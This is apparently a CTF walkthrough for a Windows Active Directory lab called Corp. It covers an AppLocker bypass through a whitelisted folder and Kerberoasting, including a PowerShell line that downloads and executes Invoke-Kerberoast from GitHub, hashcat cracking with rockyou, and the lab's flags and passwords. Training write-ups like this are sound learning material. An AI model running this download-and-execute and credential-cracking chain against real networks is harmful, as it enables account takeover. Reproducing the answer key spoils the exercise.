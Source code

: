 # CORP

## BASIC INFO
```
Windows machine
export ip=54.194.16.231

Username: corp\dark
Password: _QuejVudId6
```

# BYPASSING APP LOCKER

`C:\Windows\System32\spool\divers\color` is by default whitelisted.\

> - **Access the file and obtain the flag.**
>> flag{a12a41b5f8111327690f836e9b302f0b}

Windows powershell saves all previous command into a file called ConsoleHost_history located at `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

## KERBERROASTING

Lets first enumerate Windows. If we run `setspn -T medin -Q ​ */*` we can extract all accounts in the SPN.\
SPN is the Service Principal Name, and is the mapping between service and account.\
> - **Running that command, we find an existing SPN. What user is that for?**
>> fela


Using Powershell to Invoke-Kerberoast script.
```
iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')

Invoke-Kerberoast -OutputFormat hashcat ​ |fl
```

Copy the hash down and save it into a file.\
Next, run `hashcat -m 13100 -a 0 hash.txt --wordlist /usr/share/wordlists/rockyou.txt --force`

> - **What is the users password in plain text?**
>> rubenF124

> - **Login as this user. What is his flag?**
>> flag{bde1642535aa396d2439d86fe54a36e4}

Go to `C:\Users\fela.CORP`, when it prompt to gain access click yes and use the credentials found above.

> - **What is the decoded password?**
>> tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T

> - **Now we have the Administrator's password, login as them and obtain the last flag.**
>> THM{g00d_j0b_SYS4DM1n_M4s73R}